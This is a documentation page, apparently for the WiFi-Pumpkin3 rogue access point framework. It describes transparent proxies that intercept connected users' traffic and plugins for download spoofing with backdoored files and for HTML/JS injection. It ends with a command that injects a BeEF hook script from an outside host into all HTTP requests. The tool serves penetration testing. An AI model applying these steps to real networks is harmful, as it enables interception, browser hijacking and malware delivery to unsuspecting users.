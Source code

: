 ```yaml
---
title: 'Proxies'
description: 'The proxies are designed to add features to WP3 core and run parallel with access point (AP).'
---
```


The proxies are designed to add features to WP3 core and run parallel with access point (AP),
but redirect all traffic with `iptables`. Proxies work by intercepting a request, modifying the request if necessary, then handling or forwarding the request to its destination. When a user connects to a AP, the transparent proxy intercepts the request before passing it on to the provider.  

{% include alert.html type="info" content="The most important is you can run one proxies each time , because the proxies has been designed to work for manipulate data packets redirecting all data for a specific port number" %}

Avaliable proxies:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxies` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).
